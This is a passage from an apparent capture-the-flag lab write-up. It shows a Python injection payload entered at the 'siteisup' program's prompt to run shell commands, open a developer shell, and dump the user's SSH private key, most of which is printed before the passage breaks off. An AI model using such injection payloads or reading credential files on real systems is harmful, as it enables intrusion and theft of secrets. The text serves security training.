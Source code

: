 ```bash

Enter URL here:__import__('os').system('id')                                 
uid=1002(developer) gid=33(www-data) groups=33(www-data)
```
{: .nolineno}
{: .nolineno}

I can also get the developer shell through this command →

```bash
www-data@updown:/home/developer/dev$ ./siteisup
Welcome to 'siteisup.htb' application

Enter URL here:__import__('os').system('bash')
developer@updown:/home/developer/dev$ whoami
developer
developer@updown:/home/developer/dev$ id
uid=1002(developer) gid=33(www-data) groups=33(www-data)
developer@updown:/home/developer/dev$
```
{: .nolineno}
{: .nolineno}

Lets have the `private keys` of developer user →

```python
__import__('os').system('cat /home/developer/.ssh/id_rsa')
```
{: .nolineno}
{: .nolineno}

I use it to access the private keys of developer user →

```bash
www-data@updown:/home/developer/dev$ ./siteisup
Welcome to 'siteisup.htb' application

Enter URL here:__import__('os').system('cat /home/developer/.ssh/id_rsa')
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAmvB40TWM8eu0n6FOzixTA1pQ39SpwYyrYCjKrDtp8g5E05EEcJw/
S1qi9PFoNvzkt7Uy3++6xDd95ugAdtuRL7qzA03xSNkqnt2HgjKAPOr6ctIvMDph8JeBF2
F9Sy4XrtfCP76+WpzmxT7utvGD0N1AY3+EGRpOb7q59X0pcPRnIUnxu2sN+vIXjfGvqiAY
ozOB5DeX8rb2bkii6S3Q1tM1VUDoW7cCRbnBMglm2FXEJU9lEv9Py2D4BavFvoUqtT8aCo
srrKvTpAQkPrvfioShtIpo95Gfyx6Bj2MKJ6QuhiJK+O2zYm0z2ujjCXuM3V4Jb0I1Ud+q
a+QtxTsNQVpcIuct06xTfVXeEtPThaLI5KkXElx+TgwR0633jwRpfx1eVgLCxxYk5CapHu
u0nhUpICU1FXr6tV2uE1LIb5TJrCIx479Elbc1MPrGCksQVV8EesI7kk5A2SrnNMxLe2ck
IsQHQHxIcivCCIzB4R9FbOKdSKyZTHeZzjPwnU+FAAAFiHnDXHF5w1xxAAAAB3NzaC1yc2
EAAAGBAJrweNE1jPHrtJ+hTs4sUwNaUN/UqcGMq2Aoyqw7afIORNORBHCcP0taovTxaDb8
5Le1Mt/vusQ3feboAHbbkS+6swNN8UjZKp7dh4IygDzq+nLSLzA6YfCXgRdhfUsuF67Xwj
++vlqc5sU+7rbxg9DdQGN/hBkaTm+6ufV9KXD0ZyFJ8btrDfryF43xr6ogGKMzgeQ3l/K2
9m5Ioukt0NbTNVVA6Fu3AkW5wTIJZthVxCVPZRL/T8tg+AWrxb6FKrU/GgqLK6yr06QEJD
6734qEobSKaPeRn8segY9jCiekLoYiSvjts2JtM9ro4wl7jN1eCW9CNVHfqmvkLcU7DUFa
XCLnLdOsU31V3hLT04WiyOSpFxJcfk4MEdOt948EaX8dXlYCwscWJOQmqR7rtJ4VKSAlNR
V6+rVdrhNSyG+UyawiMeO/RJW3NTD6xgpLEFVfBHrCO5JOQNkq5zTMS3tnJCLEB0B8SHIr
wgiMweEfRWzinUismUx3mc4z8J1PhQAAAAMBAAEAAAGAMhM4KP1ysRlpxhG/Q3kl1zaQXt
b/ilNpa+mjHykQo6+i5PHAipilCDih5CJFeUggr5L7f06egR4iLcebps5tzQw9IPtG2TF+
ydt1GUozEf0rtoJhx+eGkdiVWzYh5XNfKh4HZMzD/sso9mTRiATkglOPpNiom+hZo1ipE0
NBaoVC84pPezAtU4Z8wF51VLmM3Ooft9+T11j0qk4FgPFSxqt6WDRjJIkwTdKsMvzA5XhK
rXhMhWhIpMWRQ1vxzBKDa1C0+XEA4w+uUlWJXg/SKEAb5jkK2FsfMRyFcnYYq7XV2Okqa0
NnwFDHJ23nNE/piz14k8ss9xb3edhg1CJdzrMAd3aRwoL2h3Vq4TKnxQY6JrQ/3/QXd6Qv
ZVSxq4iINxYx/wKhpcl5yLD4BCb7cxfZLh8gHSjAu5+L01Ez7E8MPw+VU3QRG4/Y47g0cq
DHSERme/ArptmaqLXDCYrRMh1AP+EPfSEVfifh/ftEVhVAbv9LdzJkvUR69Kok5LIhAAAA
wCb5o0xFjJbF8PuSasQO7FSW+TIjKH9EV/5Uy7BRCpUngxw30L7altfJ6nLGb2a3ZIi66p
0QY/HBIGREw74gfivt4g+lpPjD23TTMwYuVkr56aoxUIGIX84d/HuDTZL9at5gxCvB3oz5
VkKpZSWCnbuUVqnSFpHytRgjCx5f+inb++AzR4l2/ktrVl6fyiNAAiDs0aurHynsMNUjvO
N8WLHlBgS6IDcmEqhgXXbEmUTY53WdDhSbHZJo0PF2GRCnNQAAAMEAyuRjcawrbEZgEUXW
```